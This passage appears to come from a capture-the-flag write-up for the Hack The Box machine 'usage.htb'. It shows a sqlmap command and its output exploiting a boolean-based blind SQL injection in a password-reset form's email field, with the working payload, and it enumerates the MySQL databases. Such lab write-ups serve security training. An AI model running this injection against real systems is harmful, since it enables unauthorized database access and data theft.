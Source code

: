 ```
500 (Internal Server Error) - 128 times
[10:26:27] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/usage.htb'

```

We found the injection and now we can enumerate the databases

```bash
 sqlmap -r reset.req -p email --level 5 --risk 3 --technique=B --batch -dbs
```

```
       ___
       __H__                                                                                                                                                                                                                                                                      
 ___ ___["]_____ ___ ___  {1.9.3#stable}                                                                                                                                                                                                                                          
|_ -| . [,]     | .'| . |                                                                                                                                                                                                                                                         
|___|_  [.]_|_|_|__,|  _|                                                                                                                                                                                                                                                         
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                                                      

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:28:29 /2025-04-27/

[10:28:29] [INFO] parsing HTTP request from 'reset.req'
[10:28:29] [INFO] resuming back-end DBMS 'mysql' 
[10:28:29] [INFO] testing connection to the target URL
got a 302 redirect to 'http://usage.htb/index.php/forget-password'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: _token=lMY8oaxBR58STgl60nYUgq4YF7YrknKTzDT6BQoB&email=test@test.htb' AND 8351=(SELECT (CASE WHEN (8351=8351) THEN 8351 ELSE (SELECT 4051 UNION SELECT 2471) END))-- hspf
---
[10:28:30] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL 8
[10:28:30] [INFO] fetching database names
[10:28:30] [INFO] fetching number of databases
[10:28:30] [INFO] resumed: 3
[10:28:30] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[10:28:30] [INFO] retrieved: 
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] Y
information_schema
[10:28:51] [INFO] retrieved: performance_schema
[10:29:13] [INFO] retrieved: usage_blog
```